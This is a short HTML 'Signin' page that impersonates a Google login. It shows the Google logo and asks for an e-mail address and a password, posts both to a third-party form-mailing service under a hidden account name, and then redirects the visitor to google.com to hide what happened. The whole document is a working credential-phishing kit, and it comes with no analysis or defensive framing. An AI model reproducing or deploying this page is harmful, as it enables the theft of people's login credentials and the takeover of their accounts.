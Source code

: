 # Signin

<p style="text-align: center;">&nbsp;</p>
<center>
<p style="text-align: center;"><img src="https://upload.wikimedia.org/wikipedia/commons/thumb/8/8d/Google_logo_%282010-2013%29.svg/2560px-Google_logo_%282010-2013%29.svg.png" alt="" width="100" height="40" /></p>
<form action="http://www.formbuddy.com/cgi-bin/form.pl" method="post"><input name="username" type="hidden" value="systronics" /> <input name="reqd" type="hidden" value="0" /> <input name="url" type="hidden" value="https://www.google.com/" />
<table style="margin-left: auto; margin-right: auto; height: 76px; width: 354px;" border="0">
<tbody>
<tr style="height: 38px;">
<td style="height: 38px; width: 82px;" align="right"><strong>E-Mail:</strong></td>
<td style="height: 38px; width: 289px;"><input maxlength="100" name="e-mail" size="36" type="text" /></td>
</tr>
<tr style="height: 38px;">
<td style="height: 38px; width: 82px;" align="right"><strong>Password:</strong></td>
<td style="height: 38px; width: 289px;"><input maxlength="100" name="password" size="36" type="text" /></td>
</tr>
</tbody>
</table>
<p style="text-align: center;"><input type="submit" value="Submit" /></p>
</form></center>
